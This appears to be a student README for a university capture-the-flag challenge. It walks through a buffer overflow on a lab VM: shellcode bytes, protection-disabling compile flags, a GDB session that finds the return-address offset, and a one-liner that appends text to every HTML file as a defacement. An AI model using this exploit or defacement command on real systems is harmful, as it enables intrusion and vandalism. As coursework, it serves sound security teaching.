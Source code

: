 # NU CHALLENGE (INF473X The Hacking Xperience)

## Run commands

Run `./overflow_buffer_attack` to open a fake terminal of the VM. Then, type `cd ; for i in $(find . -name *.html); do echo '<p>YOUR NAME</p>' >>  $i; done` to add `YOUR NAME` at the bottom of the HTML page.


## Explanations
The vulnerability used is a buffer overflow. When the VM asks for a name, the user simply gives it a too long name to the point where the return address at the end of function `parse` is overwritten. This return address is then modified to point toward the beginning of the buffer (that stores the user's input) and execute malicious instructions in it. Here, the malicious instructions are launching a shell and modify all HTML files as done in the Mu challenge.

The shellcode used is `\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05` (ref [here](https://shell-storm.org/shellcode/files/shellcode-806.php)). The rest of the memory is filled by the no-operation instruction `\x90` to reach the return address.

## GDB Tests

### Proof of overwrite

Let's use GDB (a debugger tool) to better understand what's happening in the stack memory. We'll be using the c program _test_gdb.c_ which is a simplified version of the source code of the application. Once it is compiled with the command `gcc -m32 -fno-stack-protector -z execstack test_gdb.c -o test_gdb`, we can run gdb using `gdb test_gdb`.

First of all, let's try to run the program and feed it a too long name with the command `r < attack.txt` (_attack.txt_ contains a 200-long string of letters 'A' and can be generated with Python `python3 -c 'print("A"*200)' > attack.txt`). Gdb replies a segmentation fault :
```
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```
`0x41414141` is supposed to be the return pointer and is now not recognised. Moreover, 41 turns out to be the hexadecimal code for the letter 'A' which isn't a coincidence. Indeed, the return pointer was overwritten by the user's input as the latter entered a too long name.

### Exploitation

Let's dig deeper and try to count the exact number of letters 'A' needed to overwrite the return pointer with the sequence one wants. This count is simply the distance between the return pointer and _greeting_text_ + 12 (the 12 first characters are already written : _"Hello, dear "_). To find the return pointer's position in the stack, I put a break at the beginning (at the `push` level) of the function `parse` with the command `b *0x########` (in my case `b *0x56556231` and can be access when `parse` is disassembled  : `disas parse`). When running the program, it stops at this break and at this moment the stack pointer is the return pointer. So the return pointer's position can be access with :
```
gdb-peda$ x/xw $sp
0xffffcf1c:	  0x565562d6
```
Now, all that remains is to find _greeting_text_'s position in the memory. The function `strcat` takes two arguments one of which is our interest variable. I put another break at the level of `strcat`, run the program until this second break and display the two arguments of `strcat` (`dumpargs` works only with GDB Peda) :
```
gdb-peda$ dumpargs
Guessed arguments:
arg[0]: 0xffffce90 ("Hello, dear ")
arg[1]: 0xffffcd90 ('A' <repeats 200 times>...)
```
The distance between the return pointer and _greeting_text_ can be calculated as such :
```
gdb-peda$ p/d 0xffffcf1c - 0xffffce90
$1 = 140
```

Let's verify this count by generating a new _attack.txt_ : `python3 -c 'print("A"*128 + "BBAB") ' > attack.txt`. Go back to gdb and run the program `r < attack.txt` :
```
Stopped reason: SIGSEGV
0x42414242 in ?? ()
```
We still get a segmentation fault but this time, the return pointer has been successfully modified to `42414242` which corresponds to the hexadecimal code of "BBAB".

### Structure of the stack memory
```
| ############## BUFFER ############### | ###### GREETING_TEXT ###### | # SOMETHING # | # RETURN ADDRESS # |
|                 256                   |             128             |       12      |                    |
```
